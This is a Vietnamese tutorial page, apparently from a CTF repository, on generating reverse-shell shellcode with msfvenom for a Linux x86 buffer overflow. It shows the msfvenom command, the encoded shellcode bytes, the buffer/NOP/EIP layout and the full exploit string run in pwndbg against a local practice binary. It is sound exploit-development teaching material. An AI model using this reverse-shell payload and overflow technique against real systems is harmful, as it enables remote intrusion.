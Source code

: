 # Generating Shellcode
---
Chúng ta đã biết về công cụ **msfvenom** dùng để tạo ra độ dài gần đúng của shellcode. Bây giờ chúng ta có thể sử dụng lại công cụ này để tạo shellcode thực tế, điều này làm cho CPU của hệ thống mục tiêu thực thi lệnh mà chúng ta muốn có.

Nhưng trước khi tạo shellcode, chúng ta phải đảm bảo rằng các thành phần và thuộc tính riêng lẻ phù hợp với hệ thống đích. Vì vậy chúng ta phải chú ý đến các lĩnh vực sau:
- Architecture
- Platform
- Bad Characters

**MSFvenom Syntax**
```
msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
```
**MSFvenom - Generate Shellcode**

```shell
└─$ msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

    Running the 'init' command for the database:
    Existing database found, attempting to start it
    Starting database at /home/chidok/.msf4/db...pg_ctl: another server might be running; trying to start server anyway
    server starting
    success
    Found 11 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 95 (iteration=0)
    x86/shikata_ga_nai chosen with final size 95
    Payload size: 95 bytes
    Final size of c file: 425 bytes
    Saved as: shellcode
```

**Shellcode**
```shell
└─$ cat shellcode
unsigned char buf[] =
"\xd9\xc8\xba\xe2\x7a\x2a\xc8\xd9\x74\x24\xf4\x5b\x33\xc9"
"\xb1\x12\x31\x53\x17\x03\x53\x17\x83\x21\x7e\xc8\x3d\x94"
"\xa4\xfb\x5d\x85\x19\x57\xc8\x2b\x17\xb6\xbc\x4d\xea\xb9"
"\x2e\xc8\x44\x86\x9d\x6a\xed\x80\xe4\x02\x91\x72\x17\xd3"
"\x05\x71\x17\xa9\xbc\xfc\xf6\xfd\x59\xaf\xa9\xae\x16\x4c"
"\xc3\xb1\x94\xd3\x81\x59\x49\xfb\x56\xf1\xfd\x2c\xb6\x63"
"\x97\xbb\x2b\x31\x34\x35\x4a\x05\xb1\x88\x0d";
```

Bây giờ chúng ta đã có shellcode, chúng ta điều chỉnh nó để chỉ có một chuỗi, sau đó chúng ta có thể điều chỉnh và gửi lại cách khai thác đơn giản của mình.

## Tính toán buffer
```shell
    Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
    NOPs = "\x90" * 124     
    Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2" # Length = 95
    EIP = "\x66" * 4'
```

## Exploit with Shellcode

```shell
pwndbg> run $(python2 -c 'print("\x55" * 817 + "\x90" * 124 + "\xd9\xc8\xba\xe2\x7a\x2a\xc8\xd9\x74\x24\xf4\x5b\x33\xc9" + "\xb1\x12\x31\x53\x17\x03\x53\x17\x83\x21\x7e\xc8\x3d\x94" + "\xa4\xfb\x5d\x85\x19\x57\xc8\x2b\x17\xb6\xbc\x4d\xea\xb9" + "\x2e\xc8\x44\x86\x9d\x6a\xed\x80\xe4\x02\x91\x72\x17\xd3" + "\x05\x71\x17\xa9\xbc\xfc\xf6\xfd\x59\xaf\xa9\xae\x16\x4c" + "\xc3\xb1\x94\xd3\x81\x59\x49\xfb\x56\xf1\xfd\x2c\xb6\x63" + "\x97\xbb\x2b\x31\x34\x35\x4a\x05\xb1\x88\x0d" + "\x66" * 4)')
Starting program: /mnt/d/Code/All-CTF/BufferOverflow/Linux_x86/Exploxit/Attack/bow32 $(python2 -c 'print("\x55" * 817 + "\x90" * 124 + "\xd9\xc8\xba\xe2\x7a\x2a\xc8\xd9\x74\x24\xf4\x5b\x33\xc9" + "\xb1\x12\x31\x53\x17\x03\x53\x17\x83\x21\x7e\xc8\x3d\x94" + "\xa4\xfb\x5d\x85\x19\x57\xc8\x2b\x17\xb6\xbc\x4d\xea\xb9" + "\x2e\xc8\x44\x86\x9d\x6a\xed\x80\xe4\x02\x91\x72\x17\xd3" + "\x05\x71\x17\xa9\xbc\xfc\xf6\xfd\x59\xaf\xa9\xae\x16\x4c" + "\xc3\xb1\x94\xd3\x81\x59\x49\xfb\x56\xf1\xfd\x2c\xb6\x63" + "\x97\xbb\x2b\x31\x34\x35\x4a\x05\xb1\x88\x0d" + "\x66" * 4)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x5655619d in bowfunc ()
```
## Stack

```shell
pwndbg> x/2000xb $esp+550

0xffffd132:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd13a:     0x90    0x90    0xd9    0xc8    0xba    0xe2    0x7a    0x2a
                                |---> ShellCode Start
0xffffd142:     0xc8    0xd9    0x74    0x24    0xf4    0x5b    0x33    0xc9
0xffffd14a:     0xb1    0x12    0x31    0x53    0x17    0x03    0x53    0x17
```

**FUNC show size of stack: gdb info proc all**

